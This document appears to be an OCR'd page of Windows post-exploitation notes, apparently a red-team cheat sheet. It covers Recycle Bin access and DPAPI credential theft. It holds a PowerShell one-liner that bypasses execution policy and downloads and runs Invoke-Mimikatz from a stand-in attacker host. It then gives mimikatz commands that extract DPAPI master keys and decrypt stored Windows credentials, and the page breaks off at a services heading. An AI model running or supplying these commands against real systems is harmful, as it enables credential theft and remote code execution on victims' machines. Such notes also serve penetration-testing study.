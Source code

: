 ### Recycle Bin // TBD

* access recycle bin items

```
$shell = New-Object -com shell.application
$rb = $shell.Namespace(10)
$rb.Items()
```


## DPAPI

Or just use `https://github.com/login-securite/DonPAPI`

```powershell

#find DPAPI credentials


Get-ChildItem -Hidden C:\Users\username\AppData\Local\Microsoft\Credentials\
Get-ChildItem -Hidden C:\Users\username\AppData\Roaming\Microsoft\Credentials\

# Get credentials info using mimikatz 
powershell  -ep Bypass -NoP -NonI -NoLogo -c IEX (New-Object Net.WebClient).DownloadString('https://ip.attqacker/Invoke-Mimikatz.ps1');Invoke-Mimikatz -Command 'dpapi::cred /in:C:\Users\<USER>\AppData\Local\Microsoft\Credentials\DFBE70A7E5CC19A398EBF1B96859CE5D exit'

# locate guidMasterKey

Get-ChildItem -Hidden C:\Users\<USER>\AppData\Roaming\Microsoft\Protect\<SID>

# make sure to have AD binding

dpapi::masterkey /in:"C:\Users\<USER>\AppData\Roaming\Microsoft\Protect\<USER SID>\<guidMasterKey>" /rpc

# use extracted master key to decrypt credential file

mimikatz dpapi::cred /in:C:\Users\bfarmer\AppData\Local\Microsoft\Credentials\DFBE70A7E5CC19A398EBF1B96859CE5D /masterkey:0c0...very long ...f

```

Everything is easy if you are local admin

`sekurlsa::dpapi`





## Services

### Access Control check
